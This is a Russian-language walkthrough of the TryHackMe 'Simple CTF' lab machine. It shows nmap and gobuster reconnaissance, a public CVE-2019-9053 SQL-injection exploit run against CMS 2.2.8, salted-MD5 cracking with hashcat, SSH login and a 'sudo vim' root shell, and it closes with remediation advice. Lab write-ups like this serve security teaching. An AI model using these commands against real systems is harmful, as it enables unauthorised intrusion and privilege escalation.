# TryHackMe: Simple CTF


*Дата: 26.10.2026*


### Сложность: Easy

**Мой IP: 192.168.130.244**

**IP Цели: 10.114.151.74**

### **Лаборатория: TryHackMe, все действия легитимны**

**Инструменты: nmap, gobuster, searchsploit, python3, hashcat, ssh, sudo, vim**

Сегодня у меня очередная машинка на TryHackMe - **Simple CTF**

Сначала как обычно начнём со сканирования портом с помощью `nmap` и флага `-sV` *(Флаг `-sV` означает показывать версии)*

```bash
sudo nmap -sV 10.114.151.74 -p-
```



И так, в первую очередь мы видим 21 порт, на котором запущен `ftp 3.0.3` что на самом деле уже является **CVE-2021-30047**,
но уязвимость заключается не в получении шелла, а в том что злоумышленник может одновременно запустить кучу `ftp`-сеансов за раз, из-за чего сервера ftp просто перестанут отвечать

Также запущен 80-ый порт, на котором есть сайт. На сайте дефолтная страница `Ubuntu`, в коде страницы (`Ctrl+U`) ничего не было, но давайте с помощью `gobuster` поищем, нету ли других страниц.
Так как сайт на `Ubuntu`, я буду искать не только папки, но и файлы расширений `.txt`, `.html` и `.php` *(потому что они популярны на `ubuntu`)*

```bash
gobuster dir -u http://10.114.151.74 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt
```



`gobuster` нам показал что кроме обычного сайта по умолчанию, есть robots.txt, а также есть страница `http://10.114.151.74/simple` на которую я сейчас зайду



И так, тут находится целый сайт! Однако нам это не так интересно, поэтому я сразу спускаюсь в самый низ страницы, чтобы найти дополнительную информацию в виде версий `CMS` 
или чего нибудь ещё и нахожу



На скриншоте видно, что версия `CMS` - 2.2.8. Эта версия CMS имеет две ключевые уязвимости: **CVE-2019-9053** и **CVE-2019-9055**, но сейчас нам нужна будет именно **CVE-2019-9053**

Суть уязвимости в том, что она не требует аутентификации и позволяет выполнить слепую SQL-инъекцию на основе времени через параметр `m1_idlist`, вручную эксплуатировать
CMS может занять много времени, поэтому давайте используем эксплоит. Сначала поищем его в базе:

```bash
searchsploit CMS 2.2.8
```



И у нас появляется много эксплоитов, но нужен нам всего лишь один на `python` - `php/webapps/46635.py`, давайте скопируем его в свою папку:

```bash
searchsploit -m 46635.py # Флаг -m копирует эксплоит из базы данных в нашу папку, 46635 это номер эксплоита, а .py это расширение (python)
```

Давайте прочитаем инструкцию и синтаксис этого эксплоита:

```bash
head -n 20 46635.py
```



Получается синтаксис такой, мы запускаем скрипт через `python3 46635.py` `-u` это адрес цели, а `w` это путь к словарю, давайте запустим скрипт с огромным словарём `rockyou`:

```bash
python3 46635.py -u http://10.114.151.74/simple -w /usr/share/wordlists/rockyou.txt
```

Но команда не сработала:



Это синтаксическая ошибка, которая появилась из-за того, что мы используем `python3`, а не `python2`. Раз так, то нужно конвертировать скрипт из `python2` в `python3`, и это можно сделать с помощью команды `2to3`:

```bash
2to3 -w 46635.py # Может попросить установить 2to3 утилиту, нужно просто согласится
```

И теперь запускаем скрипт повторно:

```bash
python3 46635.py -u http://10.114.151.74/simple -w /usr/share/wordlists/rockyou.txt
```



Вот мы получили огромный кусок данных, среди которых есть: Хеш пароля, соль пароля,  `email` и `username`. Давайте используем это сейчас

---

Прямо сейчас у нас есть соль и хэш пароля, с помощью них можно расшифровать пароль. Для этого я буду использовать утилиту `hashcat`, но для начала нужно записать соль и хеш
в текстовый файл для удобства, а записывать их нужно в формате **хэш:соль**. Теперь давайте запишем их:

```bash
echo "0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2" > hash.txt
```
А теперь давайте расшифровать пароль, но только мы не знаем, какого формата шифровка. У меня есть предположение что это `MD5`, потому что в хэше 32 символа, цифры и буквы от a до f, но это лишь догадка.
Давайте прямо сейчас убедимся в этом с помощью утилиты `hash-identifier`:

```bash
hash-identifier 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2
```



и нам показывает, что хэш формата `MD5`, поэтому давайте расшифровывать его:

```bash
hashcat -m 10 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

Синтаксис команды:
`
hashcat - команда
-m 10 - md5(пароль + соль), -m 20 - md5(соль + пароль)
-a 0 - означает прямой перебор по словарю (Straight)
hash.txt - файл, где хранится хэш и соль
/usr/share/wordlists/rockyou.txt - путь к словарю с паролями`



Нам выдало ошибку, давайте тогда попробуем использовать флаг `-m 20`:

```bash
hashcat -m 20 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```



И вот у нас получилось, `hashcat` взломал хэш с солью и у нас получился пароль `secret`, теперь вспомним про то, что на 2222-ом порте у нас находится ssh, и теперь давайте получим шелл с помощью логина `mitch` и пароля `secret`:

```bash
ssh mitch@10.114.151.74 -p 2222 # -p 2222 мы используем, потому что ssh на нестандартном порте
```

И вот мы наконец в системе, сделаем базовую разведку:
```bash
whoami
pwd
ls -la
```



Теперь давайте прочитаем первый флаг, `user.txt`:

```bash
cat user.txt
```

Окей, давайте проверим права `sudo` у пользователя `mitch`:

```bash
sudo -l
```



И тут есть доступ к /usr/bin/vim, что является **КРИТИЧНОЙ** уязвимостью, ведь сейчас мы спокойно можем получить `root` простой командой:

```bash
sudo vim -c ':!/bin/sh'
```

Теперь введём `whoami` чтобы убедиться, что мы теперь `root`:

```bash
whoami
```



теперь ищем второй флаг в `/root`:

```bash
ls -la /root
```


И тут есть файл `root.txt`, теперь читаем его и проходим машинку:

```bash
cat /root/root.txt
```

### **РЕКОМЕНДАЦИИ ПО УСТРАНЕНИЮ УЯЗВИМОСТЕЙ:**
  1. **Обновить CMS до высшей доступной версии**
  2. **Забрать у mitch права на sudo запуск /usr/bin/vim от root**
  3. **Ограничить количество одновременных FTP-сессий, а ещё лучше обновить ftp версию до высшей доступной версии, чтобы предотвратить DoS-атаку (CVE-2021-30047)**
